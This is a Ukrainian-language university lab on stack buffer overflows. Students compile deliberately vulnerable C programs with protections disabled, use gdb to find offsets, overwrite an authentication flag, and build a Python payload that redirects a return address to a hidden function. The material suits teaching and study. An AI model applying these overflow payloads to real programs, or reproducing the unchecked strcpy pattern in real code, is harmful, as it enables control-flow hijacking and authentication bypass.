







# Лабораторна робота: Переповнення буфера (Buffer Overflow)

## Мета роботи

Ознайомитися з принципом роботи вразливості типу **buffer overflow** (переповнення буфера) на рівні стека, навчитися визначати зміщення (offset) до критичних змінних та адреси повернення за допомогою `gdb`, а також продемонструвати два класичні наслідки такої вразливості:

1. Перезапис сусідньої змінної в пам'яті (variable overwrite).
2. Перенаправлення потоку виконання програми на іншу функцію (control-flow hijack / function redirect).

---

## 1. Теоретична частина

### 1.1 Що таке переповнення буферу

**Буфер** - це просто суцільний блок пам’яті, виділений для зберігання даних. **Переповнення буфера** відбувається, коли програма записує в буфер більше даних, ніж він розрахований вмістити. Ці надлишкові дані можуть вилитися в сусідні ділянки пам’яті, потенційно перезаписуючи критично важливі дані, такі як покажчики на функції або адреси повернення.
Уявіть собі ємність, розраховану на 10 літрів води; якщо налити в неї 15 літрів, зайва вода переллється, що може пошкодити предмети, розташовані поруч. У пам’яті таке переповнення може пошкодити дані та призвести до непередбачуваної поведінки програми.

### 1.2 Чому переповнення буферу це небезпечно

Коли критичні дані (адреса повернення функції, змінна) перезаписуються, зловмисник може перенаправити потік виконання програми. Таке перенаправлення може призвести до виконання довільного коду, злому системи, перебоїв у роботі сервісів (DOS).

### 1.3 Захисні механізми (для довідки)

Сучасні компілятори та операційні системи ускладнюють експлуатацію таких вразливостей:

- **Stack canary** (`-fstack-protector`) - спеціальне значення перед адресою повернення, яке перевіряється перед виходом з функції.
- **ASLR** (Address Space Layout Randomization) - рандомізує адреси стека, купи, бібліотек при кожному запуску.
- **NX/DEP** - забороняє виконання коду в областях пам'яті, призначених лише для даних (наприклад, у стеку).
- **PIE** (Position Independent Executable) - рандомізує базову адресу самого виконуваного файлу.

У лабораторній роботі ці захисти свідомо вимкнені під час компіляції, щоб продемонструвати вразливість у "чистому" вигляді.

---

## 2. Практична частина

### Підготовка середовища

Перш ніж розпочати, коротко розглянемо інструменти, які використовуватимуться в роботі.

**GCC (GNU Compiler Collection)** - це компілятор, який перетворює вихідний код мовою C (файли `.c`) у виконуваний машинний код (бінарний файл). У цій лабораторній роботі GCC використовується з прапорцями, що вимикають сучасні механізми захисту (`-fno-stack-protector`, `-no-pie`). Також з прапорець `-g` додає до бінарного файлу debug info - відповідність між машинним кодом і рядками вихідного `.c`-файлу, іменами змінних і функцій. Без цієї інформації аналіз бінарного файлу був би значно складнішим.

**GDB (GNU Debugger)** - це інструмент для покрокового виконання та дослідження програми під час її роботи (runtime), а не статичного аналізу коду. На відміну від декомпіляторів, які намагаються відновити вихідний код C з машинних інструкцій (що є складним і часто неточним процесом), `gdb` дозволяє безпосередньо спостерігати за реальним станом програми: значеннями регістрів процесора, вмістом пам'яті, адресами змінних - саме такими, якими їх бачить комп'ютер під час виконання.

Для цілей цієї лабораторної роботи `gdb` підходить краще, ніж декомпіляція, з кількох причин:

- Нас цікавлять не абстрактні конструкції мови C, а **конкретні адреси пам'яті** - де саме в стеку розташований буфер, де саме розташована сусідня змінна чи адреса повернення. Це runtime-інформація, яку декомпілятор не надає безпосередньо.
- Оскільки бінарний файл скомпільовано з прапорцем `-g`, `gdb` може показувати імена змінних і рядки вихідного коду так, ніби ми працюємо з самим C-кодом - додаткова декомпіляція тут не потрібна.
- Робота з `gdb` не вимагає глибоких знань асемблера: для виконання цієї роботи достатньо кількох базових команд (`break`, `run`, `print`, `next`), які дозволяють отримати потрібні числові значення (офсети, адреси) без необхідності вручну читати дизасембльований код.

Перевірте наявність необхідних інструментів:

```bash
gcc --version
gdb --version
python3 --version
```

---

## 3. Приклад 1: Перезапис змінної (Variable Overwrite)

### 3.1 Вихідний код

Перегляньте файл `varoverwrite.c`



**Пояснення коду:** програма приймає рядок з аргументу командного рядка та копіює його в `buffer[16]` за допомогою `strcpy()` - функції, яка **не перевіряє довжину джерела**. Змінна `authenticated` визначає, чи буде виведено `"Access granted!"`. У штатному режимі вона ніколи не встановлюється в ненульове значення напряму, але через переповнення буфера її можна перезаписати ззовні.

### 3.2 Компіляція

Захисти навмисно вимкнено, щоб побачити вразливість без ускладнень.
> P.S. Якщо виникли проблеми з скомпільваним файлом, спробуйте перекомплювати його за допомогою команди `gcc -fno-stack-protector -no-pie -g -o varoverwrite varoverwrite.c`

### 3.3 Базовий запуск (без переповнення)

```bash
./varoverwrite "hello"
```

Очікуваний результат:

```
Buffer: hello
Access denied.
```

### 3.4 Визначення зміщення (offset) за допомогою gdb

Суть цього завдання у переповненні буфера, щоб змінити значення змінної `authenticated`. Для цього треба дізнатись відстань (зміщення або зсув) у пам'яті між буфером та змінною. Замість ручного підрахунку зміщень у дизасемблюванні, використаємо `gdb` для прямого отримання адрес змінних:

```bash
gdb -q ./varoverwrite
(gdb) break main
(gdb) run
```

Всередині сесії `gdb`:

```
(gdb) print &buffer
(gdb) print &authenticated
(gdb) print (char*)&authenticated - (char*)&buffer
```

`gdb` виведе фактичні адреси обох змінних у пам'яті. Різниця між ними (у байтах) і є тим зміщенням, яке потрібно заповнити, перш ніж почати перезаписувати `authenticated`. Остання команда виведе розмір зсуву.



Якщо `&buffer` менше за `&authenticated` на 28 байт - значить, перші 28 байтів вхідних даних повністю заповнюють буфер, а 29-й байт і далі вже потрапляють у `authenticated`.

### 3.5 Демонстрація перезапису

Існує декілька способів для заповнення буферу. Це можна робити вручну, але краще використати **python3** для генерації послідовності. Спочатку рівно заповнюємо буфер (без перезапису):

```bash
./varoverwrite "$(python3 -c "print('A'*28)")"
```

Результат - все ще `Access denied.`, оскільки `authenticated` не зачеплено.

Тепер додаємо ще один байт, щоб зачепити сусідню змінну:

```bash
./varoverwrite "$(python3 -c "print('A'*29)")"
```

Очікуваний результат:

```
Buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Access granted!
```



**Пояснення:** символ `'A'` має код `0x41` в ASCII. Коли він потрапляє в молодший байт змінної `authenticated`, її значення стає ненульовим (`0x00000041`), а перевірка `if (authenticated)` трактує будь-яке ненульове значення як `true`.

---

## 4. Приклад 2: Перенаправлення виконання (Function Redirect)

### 4.1 Вихідний код

Перегляньте файл `funcredirect.c`:



**Пояснення коду:** функція `main()` викликає `vulnerable()`, яка копіює вхідні дані в буфер без перевірки довжини. Функція `secret_function()` ніде явно не викликається - у нормальному режимі вона взагалі не виконується. Мета - переповнити `buffer`, дістатися до **адреси повернення** функції `vulnerable()` і замінити її на адресу `secret_function()`, змусивши програму "стрибнути" туди замість повернення в `main()`.

### 4.2 Компіляція

Захисти навмисно вимкнено, щоб побачити вразливість без ускладнень.
> P.S. Якщо виникли проблеми з скомпільваним файлом, спробуйте перекомплювати його за допомогою команди `gcc -fno-stack-protector -no-pie -g -o funcredirect funcredirect.c`

### 4.3 Базовий запуск

```bash
./funcredirect "test"
```

Очікуваний результат:

```
Calling vulnerable()...
You entered: test
Back in main (normal path).
```

Зверніть увагу: `secret_function()` не виконується. Це очікувана, штатна поведінка.

### 4.4 Визначення зміщення до адреси повернення через gdb

```bash
gdb -q ./funcredirect
(gdb) break vulnerable
(gdb) run "test"
```

Всередині сесії:

```
(gdb) print &buffer
(gdb) print $rbp
(gdb) print (long)($rbp + 8) - (long)&buffer
```

**Пояснення:** на архітектурі x86-64 адреса повернення завжди розташована за адресою `$rbp + 8` (одразу за збереженим `rbp`, який займає 8 байт). Тому, знаючи адресу початку `buffer` і поточне значення `$rbp`, можна обчислити точну кількість байтів, яку потрібно заповнити, щоб дістатися саме до адреси повернення - без ручного аналізу дизасемблювання.

`gdb` виведе конкретне число (наприклад, `40`) - це і є шуканий offset.



### 4.5 Отримання адреси secret_function

```
(gdb) print secret_function
```

`gdb` виведе адресу у форматі на кшталт `0x401176 <secret_function>`.



### 4.6 Формування пейлоаду

Вийдіть із `gdb` (`Ctrl+D` або `quit`) і сформуйте вхідні дані: потрібна кількість байтів-заповнювачів (`offset`), за якими йде адреса `secret_function` у форматі little-endian (8 байт):

```bash
python3 -c "
import struct, sys
offset = 40          # значення, отримане в кроці 4.4
addr = 0x401176       # адреса, отримана в кроці 4.5
payload = b'A' * offset + struct.pack('<Q', addr)
sys.stdout.buffer.write(payload)
" > payload.bin
```

**Пояснення:** `struct.pack('<Q', addr)` перетворює число на 8 байтів у форматі little-endian - саме так процесор x86-64 зберігає адреси в пам'яті (молодший байт - за меншою адресою).

### 4.7 Запуск із пейлоадом

```bash
./funcredirect "$(cat payload.bin)"
```

Очікуваний результат:

```
Calling vulnerable()...
You entered: AAAAAAAAAA...(набір "сміттєвих" символів наприкінці)
You reached the secret function!
```

Рядок `"Back in main (normal path)."` **не з'явиться** - це головне підтвердження успішного перенаправлення: замість повернення в `main()`, програма перейшла до `secret_function()`.

Після цього можливе аварійне завершення (`Segmentation fault`) - це очікувано, оскільки `secret_function()` сама не має коректної адреси повернення (стек після переповнення не містить валідних даних для подальшого виконання).



> **Примітка:** якщо в терміналі з'являється попередження на кшталт `warning: command substitution: ignored null byte in input` - це наслідок того, що адреса `0x401176` містить нульові байти на початку (`0x00000000004011`), а `argv`-рядки в C традиційно завершуються нульовим байтом. У даному прикладі це не заважає, оскільки нульові байти опиняються в самому кінці payload. У реальних сценаріях це є однією з причин, чому передачу даних часто здійснюють через `stdin`, а не через аргументи командного рядка.

---

---

## 5. Завдання для самостійного виконання

Спершу необхідно склонувати репозиторій за допомогою SSH або HTTPS (`git clone repo_url`). Далі треба перейти в директорії свого варіанту для **обох типів переповнення буфера** (`variable overwrite` та `function redirect`) та повторити всі дії, описані в пунктах 3 та 4 цієї роботи, застосовуючи їх до назв змінних, буферів та функцій свого варіанту.

### 5.1 Перезапис сусідньої змінної (variable overwrite)

Перейдіть у директорію свого варіанту (N - номер варіанту):

```bash
cd variant_N
```

Самостійно скомпілюйте бінарний файл з наданого програмного коду за допомогою комади:

```
gcc -fno-stack-protector -no-pie -g -o varoverwrite varoverwrite_N.c
```

Виконайте дії, аналогічні пункту 3, використовуючи назву буфера та змінної-прапорця зі свого варіанту.

### 5.2 Перенаправлення потоку виконання (function redirect)

Перейдіть у директорію свого варіанту (N - номер варіанту):

```bash
cd variant_N
```

Самостійно скомпілюйте бінарний файл з наданого програмного коду за допомогою комади:

```
gcc -fno-stack-protector -no-pie -g -o funcredirect funcredirect_N.c
```

Виконайте дії, аналогічні пункту 4, використовуючи назву вразливої функції, буфера та секретної функції зі свого варіанту.

### 5.3 Вимоги до звіту

Для кожного з двох варіантів (5.1 та 5.2) у звіті необхідно вказати:

- варіант завдання
- назву буфера, змінної-прапорця / секретної функції;
- отримане зміщення (offset) та спосіб його обчислення;
- сформований payload (команду, якою він був створений);
- скріншот результату до та після переповнення;
- короткий висновок: чи вдалося переповнення, та яке зміщення для цього знадобилося.

## 6. Висновки

У ході лабораторної роботи було продемонстровано:

1. Як недостатня перевірка меж вхідних даних (використання `strcpy()` без обмеження довжини) призводить до переповнення буфера на стеку.
2. Як переповнення дозволяє перезаписати значення сусідньої змінної, змінюючи логіку виконання програми (обхід перевірки автентифікації).
3. Як переповнення, що сягає адреси повернення функції, дозволяє повністю змінити потік виконання програми - передати керування довільній функції в межах виконуваного файлу.
4. Роль інструмента `gdb` для точного визначення зміщень і адрес без ручного аналізу асемблерного коду.

Ці приклади ілюструють фундаментальний принцип, на якому базуються складніші техніки експлуатації (ROP-ланцюги, ін'єкція shellcode тощо). Також вони пояснюють, чому такі захисні механізми, як **stack canary**, **ASLR** та **NX/DEP**, є критично важливими в сучасних системах.